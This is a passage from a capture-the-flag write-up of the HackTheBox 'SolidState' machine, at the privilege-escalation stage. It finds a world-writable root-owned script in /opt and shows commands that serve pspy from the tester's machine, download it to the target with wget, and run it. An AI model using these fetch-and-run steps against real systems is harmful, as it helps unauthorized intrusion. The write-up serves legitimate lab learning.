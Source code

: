 ## Privilege Escalation

If we list the contents of our user's home directory we can see an unusual `bin` direcotry:

![bin-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SolidState/img/bin-21.png)

If we list the contents of the `bin` directory we can see three symlinks:

![symlink-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SolidState/img/symlink-22.png)

This is pretty unusual, and although the symlinks are owned by `root`, I dont see a clear way of exploting this. 

So I decided to have a look around the filesystem instead. Inside the `/opt` directory I found something interesting:

![opt-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/SolidState/img/opt-23.png)

We can see a python script owned by root which is writable by everyone. But it doesnt have the SUID bit set, so how do we execute this as root? could there be a task running in the background? Let's use [pspy](https://github.com/DominicBreuker/pspy) to have a look at the running tasks.

I host the file via a python web server with:

```bash
python3 -m http.server 80
```

I then download the script from the target, add execute permissions, and run it:

```bash
wget http://10.10.14.69/pspy32
chmod +x pspy32
./pspy32
```
